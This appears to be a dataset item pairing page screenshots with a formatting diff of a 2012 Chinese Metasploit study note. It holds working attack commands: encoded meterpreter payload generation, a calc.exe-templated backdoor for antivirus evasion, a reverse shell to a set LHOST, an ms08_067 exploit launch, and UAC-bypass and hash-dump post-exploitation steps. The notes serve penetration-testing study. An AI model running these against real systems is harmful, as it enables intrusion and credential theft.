

Before and after one commit to itxx00/itxx00.github.io, a Jekyll site: the page built from _posts/2012-11-12-msf-study-note.md, in a window 1280 px wide and 1400 px high, scrolled down 36894 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

````diff
--- a/_posts/2012-11-12-msf-study-note.md
+++ b/_posts/2012-11-12-msf-study-note.md
@@ -1264,7 +1264,7 @@ msf> resource karma.rc
 这三章留着后面看，需要有ruby基础等编程基础。
 
 
-### 十四．渗透实战演习
+## 十四．渗透实战演习
 
 首先需要下载并安装一个专门用来练习渗透的虚拟机Metasploitable：
 
@@ -1429,21 +1429,24 @@ exploit
 * msfencode -l 查看可用encoder
 * msfencode -t (c,elf.exe,java.js_le,js_be,perl,raw,ruby,vba,vbs,loop-vbs,asp,war,macho) 以指定格式显示编码后的buffer
 * msfencode -i payload.raw -o encoded_payload.exe -e x86/shikata_ga_nai -c 5 -t exe 生成编码后的exe
-* msfpayload windows/meterpreter/bind_tcp LPORT=443 R | msfencode -e x86/countdown -c 5 -t raw | msfencode -e x86/shikata_ga_nai -c 5 -t exe -o multi-encoded.exe 多编码器结合，多次编码
 * msfencode -i payload.raw BufferRegister=ESI -e x86/alpha_mixed -t c 生成纯字符格式C类型shellcode
+* msfpayload windows/meterpreter/bind_tcp LPORT=443 R | \
+  msfencode -e x86/countdown -c 5 -t raw | \
+  msfencode -e x86/shikata_ga_nai -c 5 -t exe -o multi-encoded.exe 多编码器结合，多次编码
 
 ### MSFcli Commands
 
-* msfcli |grep exploit 只显示exploit
-* msfcli | grep exploit/windows 只显示windows exploit
-* msfcli exploit/windows/smb/ms08_067_netapi PAYLOAD=windows/meterpreter/bind_tcp LPORT=443 RHOST=172.16.32.26 E 针对指定IP加载指定exp并设定payload
+* `msfcli | grep exploit` 只显示exploit
+* `msfcli | grep exploit/windows` 只显示windows exploit
+* `msfcli exploit/windows/smb/ms08_067_netapi PAYLOAD=windows/meterpreter/bind_tcp LPORT=443 RHOST=172.16.32.26 E` 针对指定IP加载指定exp并设定payload
 
 
 ### MSF,Ninja，Fu
-
+```
 * msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 R | msfencode -x calc.exe -k -o payload.exe -e x86/shikata_ga_nai -c 7 -t exe 使用calc.exe作为模板，生成经过编码的后门
 * msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 R | msfencode -x calc,exe -o payload.exe -e x86/shikata_ga_nai -c 7 -t exe 与上面差不多，只是执行的时候不依赖于生成的可执行文件，且不会有任何提示信息
 * msfpayload windows/meterpreter/bind_tcp LPORT=443 R | msfencode -o payload.exe -e x86/shikata_ga_nai -c 7 -t exe && msfcli multi/hanler PAYLOAD=windows/meterpreter/bind_tcp LPORT=443 E 生成编码后的payload并开始监听本机端口
+```
 
 ### MSFvenom
 
@@ -1501,12 +1504,10 @@ meterpreter> run getcountermeasure -h
 meterpreter> run getcountermeasure -d -k
 ```
 
-```
-meterpreter> run checkvm 检查是否是虚拟机
-meterpreter> shell 转入命令行
-meterpreter> run vnc 远程VNC控制
-meterpreter> background 转入后台
-meterpreter> run post/windows/escalate/bypassuac 执行Bypass UAC
-meterpreter> run post/osx/gather/hashdump 在OS X系统上dump hash
-meterpreter> run post/linux/gather/hashdump 在Linux 系统上dump hash
-```
+* meterpreter> run checkvm 检查是否是虚拟机
+* meterpreter> shell 转入命令行
+* meterpreter> run vnc 远程VNC控制
+* meterpreter> background 转入后台
+* meterpreter> run post/windows/escalate/bypassuac 执行Bypass UAC
+* meterpreter> run post/osx/gather/hashdump 在OS X系统上dump hash
+* meterpreter> run post/linux/gather/hashdump 在Linux 系统上dump hash
````
